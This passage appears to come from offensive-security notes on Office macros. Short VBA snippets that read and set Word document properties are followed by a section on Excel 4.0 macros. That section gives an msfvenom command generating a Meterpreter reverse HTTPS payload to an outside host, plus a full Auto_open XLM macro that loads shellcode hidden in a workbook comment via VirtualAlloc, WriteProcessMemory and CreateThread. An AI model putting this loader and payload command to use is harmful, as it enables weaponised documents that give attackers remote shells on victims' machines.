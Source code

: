 			```
			Debug.Print ActiveDocument.BuiltInDocumentProperties("Author")
			```
		* custom property #1

			```
			Debug.Print ActiveDocument.CustomDocumentProperties(1)
			```
	* Set custom property (MSWord)
		* set by order

			```
			ActiveDocument.CustomDocumentProperties(1).Value = "13.37"
			```
		* set by key name

			```
			ActiveDocument.CustomDocumentProperties("AppVersion").Value = "13.37"
			```


### NEEDS Research
* Excel 4.0 Macros
	* References
		* [https://blog.avira.com/new-malware-in-old-excel-skins/](https://blog.avira.com/new-malware-in-old-excel-skins/)
	* Storing shellcode in Excel Workbook comment
		* References
			* [https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)
			* [https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)
		* Overview
			* Unable to get this to work.  Shell connects back, but Excel crashes and the shell with it.
		* Process
			1. Generate shellcode, excluding null bytes
			```
			$ msfvenom -p windows/meterpreter/reverse_https -b '\x00' LHOST=1.2.3.4 LPORT=443 -f c
			```
			1. Open hex editor and "paste write" shellcode in comment
			1. Create new Excel document
				* Right-click sheet name and click "Insert" --> "MS Excel 4.0 Macro"
				* Rename the top-left cell from "A1" to "Auto_open"
				* Paste the following in, starting with cell A1:
					* US Version (A1, A2, B1, B2 etc.)

						```
						=REGISTER("Kernel32","VirtualAlloc","JJJJJ","Alloc",,1,9)
						=REGISTER("Kernel32","WriteProcessMemory","JJJCJJJ","WPM",,1,9)
						=REGISTER("Kernel32","CreateThread","JJJJJJJ","CThread",,1,9)
						=Alloc(0,4096,4096,64)
						=SET.VALUE(B5,WPM(-1,A4,LEFT(GET.WORKBOOK(37),255),255,0))
						=SET.VALUE(B6,WPM(-1,A4+255,MID(GET.WORKBOOK(37),256,255),255,0))
						=SET.VALUE(B7,WPM(-1,A4+(255*2),MID(GET.WORKBOOK(37),511,255),255,0))
						=SET.VALUE(B8,WPM(-1,A4+(255*3),MID(GET.WORKBOOK(37),766,255),255,0))
						=SET.VALUE(B1,DEC2HEX(A4))
						=SET.VALUE(B2,A4)
						=CThread(0,0,B2,0,0,0)
						=HALT()
						```
					* International Version (Rows & Columns)
